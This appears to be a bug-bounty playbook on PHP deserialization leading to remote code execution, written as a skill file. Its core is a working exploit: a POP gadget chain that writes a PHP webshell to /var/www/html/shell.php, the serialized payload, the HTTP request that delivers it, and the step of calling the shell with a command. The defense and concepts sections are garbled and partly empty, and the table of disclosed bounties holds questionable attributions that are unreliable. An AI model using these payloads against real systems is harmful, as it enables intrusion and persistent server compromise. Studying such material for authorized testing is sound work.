

# PHP Deserialization to RCE

## When to Use
- During a web application assessment where user-supplied input is passed to PHP's `unserialize()` function.
- Often found in base64-encoded or URL-encoded cookies, hidden form fields, or API endpoints handling legacy architecture.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Sink

Look for patterns indicating serialized PHP objects Prefixes like `O:4:"User":2:{...}`
- Search source code for `unserialize($_GET['data'])` or `unserialize(base64_decode($_COOKIE['session']))`

```php
// Vulnerable Code Example $input = $_GET['payload'];
$obj = unserialize($input); // DANGER
```

### Phase 2: Utilizing PHPGGC (PHP Generic Gadget Chains)

If the target is using known frameworks/libraries (e.g., Laravel, Symfony, Monolog, SwiftMailer), you can generate a POP chain payload automatically.

```bash
# phpggc -l # List available gadget chains

# Generate a payload for Laravel/RCE1 to execute 'id' phpggc Laravel/RCE1 system 'id' --base64
```

### Phase 3: Writing a Custom Gadget Chain

If standard framework gadgets aren't available, you must review the source code for class definitions containing "Magic Methods" (e.g., `__wakeup()`, `__destruct()`, `__toString()`).

```php
# class Logger {
    public $logFile;
    public $initMsg;

    public function __destruct() {
        file_put_contents($this->logFile, $this->initMsg);
    }
}

// Crafting the payload $payload = new Logger();
$payload->logFile = "/var/www/html/shell.php";
$payload->initMsg = "<?php system($_GET['cmd']); ?>";
echo serialize($payload);
// Output: O:6:"Logger":2:{s:7:"logFile";s:23:"/var/www/html/shell.php";s:7:"initMsg";s:30:"<?php system($_GET['cmd']); ?>";}
```

### Phase 4: Executing the Attack

Submit the serialized payload (URL-encoded or Base64-encoded if necessary) to the vulnerable endpoint.

```http
# GET /vulnerable.php?payload=O:6:"Logger":2:{s:7:"logFile";s:23:"/var/www/html/shell.php";s:7:"initMsg";s:30:"<?php system($_GET['cmd']); ?>";} HTTP/1.1
Host: target.app
```
Access `shell.php?cmd=id`.

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Identify unserialize() Sink ] --> B{Dependencies Known? ]}
    B -->|Yes| C[Generate PHPGGC Payload ]
    B -->|No| D[Audit Source for Magic Methods ]
    C --> E[Inject and Execute ]
    D --> E
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Avoid unserialize() on untrusted data**: **Use JSON Encoding**: **WAF Rules against Gadget Payloads**: Key Concepts
| Concept | Description |
|---------|-------------|
| Property Oriented Programming (POP) | |
| PHP Magic Methods | |


## Output Format
```
Php Deserialization Rce — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (Deserialization RCE)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Pornhub** | $20,000 | Ruslan Habalov | RCE via PHP deserialization — breaking PHP engine | 2023 |
| **Pornhub** | $10,000 | 5haked | Separate RCE via PHP deserialization chain | 2023 |
| **Uber** | (Disclosed) | Orange Tsai | RCE via Flask Jinja2 Template Injection (SSTI) | 2023 |

**Key Lesson**: PHP deserialization RCE consistently pays $10K-$20K. Two different researchers
found separate RCE chains on the same target — proving that one RCE fix doesn't mean the 
app is safe. Orange Tsai's Flask SSTI on Uber shows Python apps are equally vulnerable.

**Real gadget chains that work:**
- PHP: `unserialize()` + POP chain → file write → webshell
- Java: ysoserial CommonsCollections → `Runtime.exec()`
- Python: `pickle.loads()` + `__reduce__` → `os.system()`
- .NET: `BinaryFormatter` + TypeConfuseDelegate → RCE

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [Deserialization of untrusted data](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)
- PHPGGC Tool: [GitHub - ambionics/phpggc](https://github.com/ambionics/phpggc)
